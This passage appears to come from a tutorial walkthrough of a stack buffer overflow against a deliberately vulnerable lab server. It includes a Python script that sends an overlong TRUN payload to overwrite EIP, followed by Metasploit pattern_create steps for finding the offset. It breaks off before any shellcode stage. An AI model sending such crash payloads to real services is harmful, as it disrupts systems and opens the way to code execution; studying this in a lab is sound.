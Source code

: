 First, let's just try to crash the application and fill the EIP with "414141" which is the representation of the letter "A" in hexadecimal. For this action, we are going to use the below python script.
&nbsp;

```python
#!/usr/bin/python3
import socket, sys
from time import sleep

buffer = b"A"*2500

print("[+] Sending the payload to the vulnerable application")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.0.52', 9999))
s.send((b'TRUN /.:/' + buffer))
s.close()
print("[+] Sent")
```
&nbsp;
![image25]({{ site.baseurl }}/assets/images/25.png){:.images}
&nbsp;

Executing **python3 exploit.py** will send **TRUN /.:/** string along with 2500 **"A"** characters to the vulnerable application. And as seen on the below screenshot, we managed to successfully overwrite the EIP register which is the "Instruction Pointer". In this case, the debugger notifies us that the vulnerable application can't find address **"41414141"** because it does not exist on the vulnerable application.
&nbsp;

![image26]({{ site.baseurl }}/assets/images/26.png){:.images}
&nbsp;

Since we don't exactly know at which character is the EIP being overwritten, we are going to use a custom pattern to easily identify it. We are going to use native Metasploit tools **msf-pattern_create** and **msf-pattern_offset**. If these tools are not in your path, you can try the below commands to locate them.
&nbsp;

```bash
find / -name "pattern_create.rb*" 2>/dev/null
find / -name "pattern_create.rb*" 2>/dev/null
```
&nbsp;

Using the below command, we are going to create a custom pattern with 3000 characters then use our python script to send it to the vulnerable application.
>> **$> pattern_create.rb -l 3000**{: style="color: red"}

&nbsp;

![image27]({{ site.baseurl }}/assets/images/27.png){:.images}
&nbsp;
